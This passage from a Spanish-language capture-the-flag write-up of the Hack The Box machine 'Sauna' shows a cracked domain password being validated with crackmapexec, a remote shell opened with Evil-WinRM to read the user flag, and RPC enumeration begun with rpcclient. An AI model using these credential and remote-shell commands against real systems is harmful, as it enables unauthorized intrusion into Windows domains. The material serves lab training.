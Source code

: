 <br>

<h3 id="Hash1">Comprobando Contraseña Crackeada y Ganando Acceso a la Máquina con Evil-WinRM</h3>

Ya tan solo debemos probar si la contraseña es válida.

Lo haremos con **crackmapexec**:
```bash
crackmapexec smb 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'
SMB         10.10.10.175    445    SAUNA            [*] Windows 10 / Server 2019 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.175    445    SAUNA            [+] EGOTISTICAL-BANK.LOCAL\fsmith:Thestrokes23
```
Parece ser válida, pero no podremos conectarnos a la máquina.

Probemos con **WinRM**, ya que vimos que está abierto:
```bash
crackmapexec winrm 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'
SMB         10.10.10.175    5985   SAUNA            [*] Windows 10 / Server 2019 Build 17763 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL)
HTTP        10.10.10.175    5985   SAUNA            [*] http://10.10.10.175:5985/wsman
WINRM       10.10.10.175    5985   SAUNA            [+] EGOTISTICAL-BANK.LOCAL\fsmith:Thestrokes23 (Pwn3d!)
```

Excelente, ya solo usemos **Evil-WinRM** para entrar a la máquina:
```batch
 evil-winrm -i 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\FSmith\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\FSmith\Desktop> dir

    Directory: C:\Users\FSmith\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       10/16/2024   6:51 PM             34 user.txt

*Evil-WinRM* PS C:\Users\FSmith\Desktop> cat user.txt
```

<h2 id="RPC">Enumeración de Servicio RPC</h2>

Como ya tenemos credenciales válidas, podemos enumerar varios servicios como **LDAP, SMB**, pero el que es más simple de enumerar (en mi opinión), es el **servicio RPC**.

La idea, es comprobar los usuarios existentes, ya que solamente contamos con 2 usuarios.

Entremos usando **rpcclient**:
```batch
rpcclient -U "fsmith%Thestrokes23" 10.10.10.175
rpcclient $>
```
Obtuvimos un acceso exitoso.

